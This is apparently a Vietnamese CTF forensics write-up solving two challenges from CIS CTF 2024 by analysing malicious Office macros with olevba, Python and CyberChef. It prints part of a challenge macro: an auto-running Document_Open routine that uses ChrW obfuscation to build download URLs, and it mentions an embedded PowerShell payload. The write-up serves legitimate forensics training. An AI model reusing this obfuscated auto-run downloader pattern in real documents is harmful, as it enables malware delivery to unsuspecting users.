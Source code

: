 ```yaml
--- 
title: "CIS CTF"
date: 2024-09-30T17:31:45+07:00
tags: [Forensics]
author: [1]
---
```


Đây là năm đầu tiên CIS được tổ chức. Mình khá hào hứng khi tham gia giải này, vừa cả sợ không làm được bài, vì toàn các đối thủ mạnh thôi. Đây cũng là một cơ hội để mình có ý chí cố gắng hơn, để giỏi hơn nữa. Trong 4 bài Forensics mình chỉ làm được 2 bài. Cảm ơn mọi người đã đọc. Giờ thì bắt đầu thôi.

## 1. sexe.zip
> Tiếc diên năm 2024, tui đang ở trên toà Phao-sần-palây, tui thấy 1 hiện tượng lạ, có hình có trái tim, có tình iu. Mà tui nói với quý dị là tui mắt thấy tai nghe chứ khum có nằm chiêm bao. Tui thấy một người phụ nữ điẹp thật điẹp, s.exe Flag có 2 phần: Phần thứ nhất nằm trong hình ảnh, phần thứ 2 nằm trong link.

> Pass zip: cis2024

### Solution
Bài cho mình 1 file zip và password. Mình unzip file zip và nhận được 1 file eml. Mình dùng trình đọc online, thấy nó chứa 1 file đính kèm và có cả mật khẩu :
![image](https://hackmd.io/_uploads/BkIivjFyJl.png)
Down file zip xuống và extract bằng pass đã cho. Dùng olevba check macro, vì code khá dài nên mình chỉ nói đến hàm chính:
```vbs=
Private Sub Document_Open()
Dim targetFileName As String
targetFileName = "sexe.docm"
If ThisDocument.Name = targetFileName Then
On Error Resume Next
Dim YjB As Variant
MjqZthLra
YjB = ZvyJxkrbxq()
Dim i As Integer
Dim x18927312q As String
Dim ykajsy98q9 As String
Dim z918273aqw As String
Dim w128737921 As String
Dim o888q87w66 As String
Dim q918273912 As String
Dim A120382103 As String
Dim B817263893 As String
Dim C098q0w812 As String
Dim D98128703a As String
Dim Eoiaoq9098 As String
A = ChrW(&H68) & ChrW(&H74) & ChrW(&H74) & ChrW(&H70) &
ChrW(&H3A) & ChrW(&H2F) & ChrW(&H2F) & ChrW(&H31) & ChrW(&H39) &
ChrW(&H32) & ChrW(&H2E) & ChrW(&H31) & ChrW(&H36) & ChrW(&H38) &
ChrW(&H2E) & ChrW(&H35) & ChrW(&H36) & ChrW(&H2E) & ChrW(&H31) &
ChrW(&H3A) & ChrW(&H38) & ChrW(&H30) & ChrW(&H38) & ChrW(&H31) &
ChrW(&H2F)
x18927312q = ChrW(&H68) & ChrW(&H74) & ChrW(&H74) & ChrW(&H70) &
ChrW(&H73) & ChrW(&H3A) & ChrW(&H2F) & ChrW(&H2F)
A120382103 =
"687474703A2F2F6578616D706C652E636F6D2F66616B653120"
ykajsy98q9 = ChrW(&H67) & ChrW(&H69) & ChrW(&H74) & ChrW(&H68) &
ChrW(&H75) & ChrW(&H62) & ChrW(&H2E) & ChrW(&H63)
z918273aqw = ChrW(&H6F) & ChrW(&H6D) & ChrW(&H2F) & ChrW(&H30) &
ChrW(&H78) & ChrW(&H4B) & ChrW(&H43) & ChrW(&H53)
w128737921 = ChrW(&H43) & ChrW(&H2F) & ChrW(&H64) & ChrW(&H65) &
ChrW(&H6D) & ChrW(&H6F) & ChrW(&H2D) & ChrW(&H6F)
o888q87w66 = ChrW(&H6E) & ChrW(&H6C) & ChrW(&H79) & ChrW(&H2F) &
ChrW(&H72) & ChrW(&H61) & ChrW(&H77) & ChrW(&H2F)
q918273912 = ChrW(&H6D) & ChrW(&H61) & ChrW(&H69) & ChrW(&H6E) &
ChrW(&H2F)
For i = 1 To 98
HxvRibfksk (x18927312q & ykajsy98q9 & z918273aqw & w128737921 &
o888q87w66 & q918273912 & YjB(i))
Next i
JkYpCwv
On Error GoTo 0
End If
End Sub
```
Mình chuyển một số hàm thành Python xem nó ra cái gì:
```python=
A = (
chr(0x68) + chr(0x74) + chr(0x74) + chr(0x70) + chr(0x73) + chr(0x3A) +
chr(0x2F) + chr(0x2F) +
chr(0x67) + chr(0x69) + chr(0x74) + chr(0x68) + chr(0x75) + chr(0x62) +
chr(0x2E) + chr(0x63) +
chr(0x6F) + chr(0x6D) + chr(0x2F) + chr(0x30) + chr(0x78) + chr(0x4B) +
chr(0x43) + chr(0x53) +
chr(0x43) + chr(0x2F) + chr(0x64) + chr(0x65) + chr(0x6D) + chr(0x6F) +
chr(0x2D) + chr(0x6F) +
chr(0x6E) + chr(0x6C) + chr(0x79) + chr(0x2F) + chr(0x72) + chr(0x61) +
chr(0x77) + chr(0x2F) +
chr(0x6D) + chr(0x61) + chr(0x69) + chr(0x6E) + chr(0x2F)
)
print(A)
```
Và nhận được đầu ra là 1 liên kết: https://github.com/0xKCSC/demo-only/raw/main/.
![image](https://hackmd.io/_uploads/By0ldsYJke.png)
Ở đường dẫn demo-only, mình thấy có khá nhiều file có đuôi godefend. Mình clone
nó về. Sau đó dùng lệnh `ls -lh` để kiểm tra dung lượng file. Các file có dung lượng
khác lần lượt là 22, 32 và 33. Ở file 22, mình có được phần đầu của flag:
![Screenshot 2024-10-14 030644-min](https://hackmd.io/_uploads/SkYZKiKJye.png)
Với các file 32 và 33. Mình dùng Detect-it-easy để xem nó là gì vì dung lượng nó khá thấp.
![image](https://hackmd.io/_uploads/S1lEFjFk1e.png)
Dùng Jetbrains Dotpeak load nó vào vì đây là 1 file C#:
![image](https://hackmd.io/_uploads/HyUBtit1kl.png)
Trong phần Resources, mình thấy 1 file mal.ps1. Các lệnh có thể khá phức tạp, tuy nhiên ta chỉ cần để ý đến phần `Start-Process -NoNewWindow powershell`. Copy đoạn base64, đưa nó vào Cyberchef:
![image](https://hackmd.io/_uploads/B1kdYiYJJx.png)
Mình thử copy link và search nhưng không thành công. Sau đó mình đếm và biết được phần còn thiếu là 10 kí tự. Đúng với chữ p0wershe1l trong link. Chỉ cần dán vào phần đầu và lụm cờ.

FLAG: `CIS{sexy_h0ney_p0wershe1l}`

## 2. Tin học văn phòng 2
> It's actually `Tin học văn phòng 3`

### Solution
Đề bài cho mình 1 file doc. Như thường lệ, mình dùng olevba để check macro.
![image](https://hackmd.io/_uploads/rkaCYjtyke.png)
Đây là một phần của đoạn mã, vì nó khá là dài nên mình không copy ra đây hết
được. Ban đầu mình stuck khoảng gần 1 nửa thời gian, loanh quanh xem từng hàm
một. Sau đó mình bắt đầu để ý đến các hàm được comment, đặc biệt là các dòng
chứa từ LitStr, khi nối chúng lại và decode bằng base64 ta sẽ được 1 chuỗi có
nghĩa. Mình extract olevba ra 1 file có tên out.txt, sau đó dùng lệnh `cat out.txt | grep
"LitStr"` để lọc ra các dòng chứa từ LitStr. Để ý tiếp :
![image](https://hackmd.io/_uploads/SkmW5iFJye.png)
Mình thấy các dòng chứa 0x0004 là nhiều nhất. Nên mình dùng cách tương tự để lấy ra các dòng chứa 0x0004. Sau đó mình dùng VScode loại bỏ các từ không cần thiết. Sau đó vứt nó vào Cyberchef:
![image](https://hackmd.io/_uploads/SJKfqsFJkg.png)
Mình nhận được cờ ở đây.

FLAG: `CIS2024{Tin_hoc_van_phong_neva_die}`

Và chỉ có như vậy thôi!!!!!

![i-love-you-pepe](https://hackmd.io/_uploads/ByS4G0gmkg.gif)



